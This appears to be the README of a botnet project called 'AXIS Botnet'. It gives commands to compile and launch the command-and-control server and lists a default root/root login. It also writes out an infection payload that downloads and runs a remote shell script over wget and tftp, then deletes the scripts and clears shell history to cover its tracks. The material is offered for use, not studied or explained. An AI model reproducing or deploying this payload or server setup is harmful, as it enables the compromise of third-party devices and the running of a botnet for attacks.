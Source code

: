 # AXIS Botnet

### Installation:
* Linux only:
  * **recommended to use Centos 7**
  * `sudo python3 build.py AXIS_CC.c (server-ip)`
  * `gcc AXIS_CNC.c -o AXIS -pthread`
  * `sudo screen ./AXIS 606 1 909`
  
### Connect
* SSH Config:
  * PORT: 909
  * TYPE: RAW
  
* Password (default)
  * username: root
  * password: root
  
### Payload
* Payload: cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://(server-ip)/AXIS.sh; chmod 777 *; sh AXIS.sh; tftp -g (server-ip) -r tftp1.sh; chmod 777 *; sh tftp1.sh; rm -rf *.sh; history -c"

### window
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/808620387390324746/992772504521297990/275038087_1604950353178908_3257252682320961726_n.jpg">
</p>
